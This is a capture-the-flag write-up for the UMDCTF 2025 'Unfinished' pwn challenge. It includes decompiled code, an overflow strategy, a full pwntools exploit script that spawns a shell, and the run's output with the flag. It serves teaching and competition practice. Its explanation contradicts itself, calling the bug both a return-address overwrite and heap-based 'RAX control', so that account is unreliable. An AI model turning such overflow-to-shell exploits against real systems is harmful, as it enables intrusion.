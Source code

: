 ```yaml
---
title: "Unfinished 🚧 – Heap Mismanagement and RAX Control (UMDCTF 2025)"
tags: [CTF, binary exploitation, Heap Overflow, RAX control, pwn]
---
```


# UMDCTF 2025 - Unfinished Pwn Challenge Writeup 🚧
**Author:** [@notagain_pwn](https://github.com/notagain-pwn) (RaptX team)

![CTF](https://img.shields.io/badge/CTF-UMDCTF_2025-blue)
![Challenge](https://img.shields.io/badge/Challenge-Unfinished-informational)
![Category](https://img.shields.io/badge/Category-Pwn-red)
![Difficulty](https://img.shields.io/badge/difficulty-Medium-orange)

## Table of Contents 📚
- [Challenge Overview 📄](#challenge-overview-)
- [Introduction 🎯](#introduction-)
- [Binary Analysis 🔍](#binary-analysis-)
- [Exploitation Strategy 🛠️](#exploitation-strategy-)
- [Detailed Under-the-Hood Explanation 🧠](#detailed-under-the-hood-explanation-)
- [Exploit Script 🧨](#exploit-script-)
- [Result 🏆](#result-)
- [Takeaways ✨](#takeaways-)

## Challenge Overview 📄

- **Binary:** run (ELF 64-bit)

**Protections:**
```
Arch: amd64-64-little
RELRO: Full RELRO
Stack: Canary found
NX: NX enabled
PIE: No PIE (0x400000)
Stripped: No
```

## Introduction 🎯

The challenge revolves around a mismanaged heap allocation in a C++ program using `new[]`.  
By requesting a very large allocation size and overflowing, we can control a key pointer and eventually trigger `system("/bin/sh")` through a hidden function `sigma_mode()`.

## Binary Analysis 🔍

Relevant snippet from `main()`:

```c
undefined8 main(void)
{
  ulong uVar1;
  long lVar2;

  setvbuf(stdout,0,2,0);
  setvbuf(stdin,0,2,0);
  puts("What size allocation?");
  fgets(number,500,stdin);
  uVar1 = atol(number);
  if (uVar1 < 0x1fffffffffffffff) {
    lVar2 = uVar1 << 2;
  } else {
    lVar2 = __cxa_throw_bad_array_new_length();
  }
  _Znam(lVar2);
  return 0;
}
```

And the win function:

```c
void _Z10sigma_modev(void)
{
  system("/bin/sh");
}
```
- Uses `fgets` to read an allocation size.
- Calls `atol()` to convert the string to integer.
- Allocates memory with `new[]`.
- If allocation fails, fallback to `bad_alloc` is thrown.

## Exploitation Strategy 🛠️

1. Input a large number (`230584300921369395`) less than `0x1fffffffffffffff` to bypass checks.
2. Overflow up to the saved return address.
3. Overwrite the return address to call `sigma_mode()`.
4. `sigma_mode` triggers `system("/bin/sh")`.

With pwndbg & cyclic, after allocating this big number, we saw that the important overwrite had to target `RAX`, not directly the stack return pointer.  

By controlling what `RAX` points to, the program then calls `system("/bin/sh")`.

With `cyclic` from pwntools and gdb, we found that the overflow offset was 181 bytes.

## Detailed Under-the-Hood Explanation 🧠

In this C++ binary, the flow isn't the classical stack-based buffer overflow:
- **Allocation with `new[]`** returns a **heap** chunk, not directly on the stack.
- The code expects `new[]` to either succeed or throw an exception (`bad_alloc`).
- However, if the allocation size is huge (but still under the `if (uVar1 < 0x1fffffffffffffff)` check), the program behaves weirdly.
- Instead of cleanly throwing an error, it **proceeds** with partially initialized memory structures.
- As a result, the program will later dereference uninitialized memory and **attempt to call a function pointer stored inside RAX**.

Because we control part of this memory layout (through input size and buffer), we manage to **smuggle** a crafted RAX value pointing to our payload.

Thus, it wasn't a direct stack-based RIP overwrite: it was a **heap-based RAX control** which then gets **called**.

When `sigma_mode()` is called, we achieve code execution.

## Exploit Script 🧨

```python
from pwn import *
import argparse
import os

# Binary and library paths
BINARY = './run'
LIBC_PATH = './libc.so.6'
LD_PATH = './ld-linux-x86-64.so.2'

# Offsets and important addresses
SIGMA_MODE = 0x4019b6  # system("/bin/sh") inside sigma_mode
OFFSET = 181

# Setup context
context.binary = BINARY

def start_local():
    return process([LD_PATH, '--library-path', os.path.dirname(LIBC_PATH), BINARY])

def start_remote(host, port):
    return remote(host, port)

def build_payload():
    payload = b'230584300921369395 '
    payload += b'A' * OFFSET
    payload += p64(SIGMA_MODE)
    return payload

def exploit(p):
    p.recvline()
    p.sendline(build_payload())
    sleep(0.2)
    p.sendline(b'id')
    p.interactive()

def main():
    parser = argparse.ArgumentParser(description="Exploit script for unfinished challenge.")
    parser.add_argument('--host', help='Remote host to connect')
    parser.add_argument('--port', type=int, help='Remote port to connect')
    args = parser.parse_args()

    if args.host and args.port:
        p = start_remote(args.host, args.port)
    else:
        p = start_local()

    exploit(p)

if __name__ == '__main__':
    main()
```

## Result 🏆

```bash
└──╼ $ python3 exp.py --host challs.umdctf.io --port 31003
[+] Opening connection to challs.umdctf.io on port 31003: Done
[*] Switching to interactive mode
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu)
$ cat flag*
UMDCTF{crap_i_have_to_come_up_with_a_flag_too?????????}
```

## Takeaways ✨

- Heap mismanagement can be just as powerful as stack-based exploits.
- Always be careful with unchecked huge memory allocations.
- RAX control can substitute RIP control in certain scenarios.
- Think beyond classical stack smashing!

🔙 [Back to UMDCTF 2025 Writeups](../../)
